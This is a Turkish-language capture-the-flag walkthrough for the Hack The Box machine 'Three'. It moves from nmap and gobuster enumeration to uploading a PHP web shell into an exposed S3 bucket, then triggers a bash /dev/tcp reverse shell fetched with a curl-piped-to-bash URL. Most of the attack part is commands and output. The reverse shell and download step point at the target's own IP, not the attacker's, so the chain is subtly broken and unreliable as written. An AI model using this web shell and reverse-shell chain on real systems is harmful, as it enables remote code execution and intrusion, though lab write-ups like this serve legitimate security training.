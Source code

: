 ---
---

# Three

!!! info "Target IP Address"

    10.129.227.248

Hedef makine için Nmap taraması gerçekleştir:

```bash
sudo nmap 10.129.227.248 -p- -Pn -T5 --open
```

```text title="Output" hl_lines="7"
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-01-22 00:28 +03
Nmap scan report for 10.129.227.248
Host is up (0.33s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 7.73 second
```

Web tarayıcısında [http://10.129.227.248](http://10.129.227.248) adresine gidildiğinde yönlendirilen siteye (`thetoppers.htb`) erişebilmek için aşağıdaki komutu çalıştır:

```bash
echo "10.129.227.248 thetoppers.htb" | sudo tee -a /etc/hosts
```

Ardından aşağıdaki komutu çalıştır:

```bash
gobuster vhost --append-domain -u thetoppers.htb -w /opt/useful/SecLists/Discovery/DNS/subdomains-top1million-5000.txt
```

```text title="Output" hl_lines="15"
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:             http://thetoppers.htb
[+] Method:          GET
[+] Threads:         10
[+] Wordlist:        /opt/useful/SecLists/Discovery/DNS/subdomains-top1million-5000.txt
[+] User Agent:      gobuster/3.6
[+] Timeout:         10s
[+] Append Domain:   true
===============================================================
Starting gobuster in VHOST enumeration mode
===============================================================
Found: s3.thetoppers.htb Status: 404 [Size: 21]

...SNIP...
```

!!! info "Amazon S3"

    Gobuster ile elde edilen vHost bilgisini Google üzerinde aratırsak, bundan sonraki adımlarımızın [Amazon S3](https://docs.aws.amazon.com/AmazonS3/latest/userguide/Welcome.html) ile ilgili olacağını öğrenebiliriz.

Aşağıdaki one-liner komutunu PHP dosyası olarak kaydet:

```bash
echo '<?php system($_GET["cmd"]); ?>' > shell.php
```

Oluşturulan bu dosyayı S3 kovasına (bucket) yükle:

```bash
aws --endpoint=http://s3.thetoppers.htb s3 cp shell.php s3://thetoppers.htb
```

Ardından aşağıdaki reverse shell payload dosyasını oluştur:

```bash title="shell.sh" linenums="1"
#!/bin/bash

bash -i >&/dev/tcp/10.129.227.248/1337 0>&1
```

Netcat ile 1337 numaralı port üzerinden dinlemeye başla:

```bash
nc -nvlp 1337
```

Reverse shell payload dosyasının bulunduğu dizinde bir Python HTTP sunucusu başlat:

```bash
python -m http.server 8000
```

Web tarayıcısında [https://thetoppers.htb/shell.php?cmd=curl%2010.129.227.248:8000/shell.sh|bash](https://thetoppers.htb/shell.php?cmd=curl%2010.129.227.248:8000/shell.sh|bash) adresine giderek Netcat üzerinde reverse shell elde et ve bu shell üzerinde aşağıdaki komut ile bayrağı ele geçir:

```bash
cat /var/www/flag.txt
```
